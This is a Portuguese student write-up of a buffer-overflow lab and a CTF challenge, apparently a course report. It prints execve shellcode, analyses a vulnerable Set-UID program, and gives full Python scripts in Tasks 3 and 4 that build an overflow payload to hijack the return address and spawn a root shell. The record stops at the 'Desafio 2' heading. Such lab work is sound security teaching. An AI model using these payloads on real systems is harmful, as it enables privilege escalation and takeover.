



## TAREFA 1
O principal objetivo de um ataque de buffer-overflow é injetar código malicioso no programa atacado, de forma a fazer uso dos privilégios deste para o executar. Uma vez que Shellcode é usado na maioria de ataques de injeção de código, esta primeira tarefa tem como objetivo uma familiarização inicial a como este funciona.

Shellcode, é basicamente um pedaço de código que executa uma shell, o que observamos no código c partilhado no guião:

```c
#include <stdio.h>
int main() {
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Este simples código, usa o comando "/bin/sh", e os argumentos guardados em "name", na chamada ao comando execve(), para executar uma shell. No entanto, não é possível compilar este código e usar o binário gerado como o nosso shellcode. O Lab apresenta, portanto, o código binário gerado apartir de código assembly, o qual é brevemente explicado no guião, para uma arquitetura de 32 e de 64 bits. Este código encontra-se no ficheiro "call_shellcode.c":

```c
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
```

Quando o ficheiro é compilado com a flag -m32, o código binário de 32 bits (bloco else), é guardado em "shellcode", caso contrário, é guardado o de 64 bits (primeiro bloco).

Todas as instruções de compilação já estão especificadas no Makefile providenciado. Compilamos o código com o comando "make", que gerou 2 ficheiros de output (um com o código de 64 bits e outro com o de 32) e, executando ambos, verificamos que  é aberta uma shell (neste caso zsh, por causa das proteções) no terminal, no mesmo diretório onde é executado o programa.


## TAREFA 2
A segunda tarefa consistia em perceber como funciona o programa vulnerável deste lab, que se encontra no ficheiro "stack.c". Para isso começamos por analisar o ficheiro.

A vulnerabilidade está no facto da função "strcpy()", não verificar os limites do buffer para o qual estamos a tentar copiar. O programa lê para um array de caracteres "str", com um tamanho máximo de 517 bytes, o conteúdo (também 517 bytes, se tudo correr bem) de um ficheiro "badfile".

```c
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
```

De seguida é chamada a função "bof()", com o array "str" como argumento.

```c
bof(str);
```

Nesta função, "strcpy()" irá copiar os 517 bytes do array "str" para um buffer de tamanho "BUF_SIZE", definido como apenas 100 bytes, e por isso um buffer-overflow irá ocorrer.

```c
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
//...
char buffer[BUF_SIZE];

strcpy(buffer, str);	
```

Uma vez que o programa é "SET-UID root-owned", explorando esta vulnerabilidade existe a possibilidade do utilizador conseguir acesso a uma root shell (se o conteúdo do ficheiro "badfile" visar a isso, é claro).

Em termos de compilação é de destacar alguns aspetos:
 - As opcões "-fno-stack-protector" e "-z execstack" devem ser usadas de forma a desativar a "StackGuard" e as proteções não executáveis da stack.
 
 - De forma a tornar o programa em um programa "Set-UID root-owned", primeiramente mudamos a ownership do programa para root, usando o comando "sudo chown root stack", e depois mudamos a permissão para 4755, deforma a habilitar o bit de "Set-UID". Esta deve ser a ordem utilizada, uma vez que alterar a ownership para root, desativaria o bit de "Set-UID".
Todos estes comandos já vêm incluídos no Makefile providenciado, pelo que estamos prontos a continuar com as restantes tarefas, e podemos compilar o código com "make", no momento apropriado.


## TAREFA 3

Nesta tarefa, o objetivo é explorar uma vulnerabilidade de buffer overflow em um programa de 32 bits chamado "stack-L1-dbg".

Primeiramente, tivemos que utilizar um debbuger(GDB), para analisar o programa alvo e descobrir a distância entre o início do buffer e o local onde o endereço de retorno é armazenado.

Terminal 1 | Terminal 2
:---------:|:---------:
| 

De seguida, tivemos de alterar as variaveis no script python.


-Alteramos a variavel **offset** para 112, pois essa é a distância entre o inicio do buffer e o endereço de retorno.

-Alteramos tambem o valor **ret** para o programa saltar para o endereço que queremos.

-Alteramos o valor **start** para coincidir com o inicio do shellcode no buffer com a posição do ret.
    


**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcc0c     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

Para finalizar corremos o script python e depois corremos o programa.Com isto conseguimos executar o buffer overflow e executar o shellcode.



## TAREFA 4
Nesta task o objetivo é bastante semelhante ao anterior, mas o tamanho inicial do **buffer** é desconhecido. 

Sabemos que o buffer pode ter entre 100 a 200 bytes e não é podemos utilizar uma abordagem de força bruta para determinar seu tamanho exato. Portanto, para garantir que nosso exploit funcione para qualquer tamanho de buffer dentro desse intervalo, devemos posicionar o shellcode após o tamanho máximo do buffer.

Na tarefa anterior o return address econtrava-se a 12 bytes após o final do *buffer* (100 + 12). Logo, se preenchermos as posições 112 a 212 do buffer com o return address que pretendemos, qualquer buffer com o tamanho contido no intervalo indicado encontrará o return address em `ebp`.

Ao utilizar o depurador gdb, confirmamos que o endereço base do buffer é `0xffffcaa0`, o que significa que o espaço de memória após o buffer começa em `0xffffcb0c`.

Com base nessas informações e assumindo valores arbitrários de 240 como o início do shellcode e 220 como o offset do return address, o script exploit.py pode ser formulado da seguinte maneira:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 240               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb0c   # Change this number
offset = 220           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```` 

## CTF 5

### Desafio 1
O objetivo do primeiro desafio é de alguma forma ler o ficheiro "flag.txt" que se encontra no working directory, tomando conta das funcionalidades do programa que se encontra a correr. Para chegar à soluçao, começamos por responder às perguntas propostas no enunciado:

	- Existe algum ficheiro que é aberto e lido pelo programa ?
	  R: Existe, o ficheiro "mem.txt", guardado no array de caracteres "meme_file", é aberto para leitura.
	  
	- Existe alguma forma de controlar o ficheiro que é aberto ?
	  R: Sim, alterando o nome guardado em "meme_file".
	
	- Existe algum buffer-overflow? Se sim, o que é que podes fazer ?
	  R: A chamada à função "scanf", "scanf("%40s", &buffer);", lê para um array "buffer" com um tamanho máximo de 32 bytes, um total possível de 40 caracteres de input do utilizador do programa. Uma vez que no código, "buffer" é declarado logo após "meme_file", e falta ao programa as proteções da stack, descritas ao correr "checksec program", é possível com este overflow, reescrever o conteúdo do array "meme_file", e por isso, controlar o nome do ficheiro que é aberto, permitindo-nos examinar o seu conteúdo, impresso pelo programa na consola.
	  
Considerando isto, corremos o programa, com o seguinte input, quer usando diretamente a porta, quer o script python, para obtermos a flag:

### Desafio 2
